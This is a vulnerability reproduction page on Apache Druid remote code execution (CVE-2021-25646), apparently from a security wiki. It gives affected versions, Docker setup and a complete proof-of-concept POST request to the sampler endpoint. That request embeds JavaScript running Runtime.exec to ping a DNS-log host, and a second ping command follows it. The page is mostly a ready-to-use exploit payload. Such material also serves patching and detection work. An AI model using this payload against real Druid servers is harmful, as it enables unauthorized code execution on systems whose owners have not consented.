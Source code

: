 ```yaml
---
title: Apache Druid sampler Remote code execution vulnerability CVE-2021-25646
---
```


# Apache Druid sampler Remote code execution vulnerability CVE-2021-25646

## Vulnerability Description

Apache Druid is a column-oriented open-source distributed data store written in Java, designed to quickly obtain large amounts of event data and provide low-latency queries on top of the data.
Apache Druid lacks authorization authentication by default, and an attacker can send specially crafted requests to execute arbitrary code using the privileges of processes on the Druid server.
Apache Druid includes code that executes user-provided JavaScript functionality embedded in various types of requests. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Druid < 0.20.1</span>

## Environment construction

Docker is used here to build an environment


</a-alert>

<br/>

After downloading, enter the directory `distribution\docker`

Execute the command to compile `docker-compose up -d`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/2ff63956-f284-448b-aa1f-ad388b2c1be2.png)



## Vulnerability reappears

Verify POC

```shell
POST /druid/indexer/v1/sampler
Content-Type: application/json

{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('ping p3fpw5.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/76ab3573-05f8-4abe-b4ea-cd4d400689ee.png)

<br/>


</a-alert>

<br/>

<a-alert type="success" message="java.lang.Runtime.getRuntime().exec('ping -c 4 xxxxx.dnslog.cn')" description="" showIcon>
</a-alert>

<br/>